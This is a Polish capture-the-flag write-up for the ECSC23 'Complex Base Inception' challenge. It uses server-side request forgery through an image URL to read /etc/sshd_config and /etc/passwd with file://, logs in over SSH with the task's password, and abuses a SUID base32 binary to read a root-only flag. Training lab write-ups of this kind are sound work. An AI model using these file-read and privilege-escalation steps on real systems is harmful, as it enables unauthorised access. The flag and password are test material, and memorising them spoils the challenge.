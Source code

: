 # Complex Base Inception - web, misc

![](../images/df54346c-757e-4936-858f-a7e981a25abd.png)

Przy wysyłaniu obrazków na serwer, można w parametrze `image` ustawić jakikolwiek inny URL, przez co możemy zleakować adres IP serwera, podając URL webhooka.

![](../images/7991b449-a1dc-470f-a78b-3324b338038f.png)

Używająć `file://` scheme, możemy dostać `file:///etc/sshd_config` i `file:///etc/passwd`, żeby dowiedzieć się na jakim porcie działa serwer SSH i na jakiego usera mamy się zalogować. Potem odczytać te dane na stronie z galerią.

/etc/sshd_config:
```
Include /etc/ssh/sshd_config.d/*.conf

Port 64
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
```

/etc/passwd:
```
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
base64:x:1001:1001::/home/base64:/bin/bash
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

Potem wystarczy zalgoować się przez SSH używając hasła podanego w opisie zadania: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`

```shell=
~/s/c/h/cbi: ssh base64@38.60.249.147 -p 64 
(base) base64@sqmrg0p2:~$ ls -alh
total 12K
drwxr-xr-x 2 root root   53 Jul 21 21:14 .
drwxr-xr-x 4 root root   34 Jul 11 05:04 ..
-r-------- 1 root root   73 Jul 11 05:14 flag.b64
```

Po znalezieniu, że binarka base32 ma SUID bit ustawiony, możemy dzięki niej odczytać flagę, która jest do odczytu tylko przez roota:
```shell=
(base) base64@sqmrg0p2:~$ find / -perm -4000 2>/dev/null
/snap/core22/817/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core22/817/usr/lib/openssh/ssh-keysign
/usr/bin/base32
/usr/bin/at
/usr/bin/chfn
(base) base64@sqmrg0p2:~$ /usr/bin/base32 ./flag.b64 | base32 --decode
ZWNzYzIze3NvbWVfdW5ndWVzc2FibGVfdGV4dF9hbmRfc29tZV9zYWx0X2R0Y3BraGFhfQ==
```

Flag: `ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`
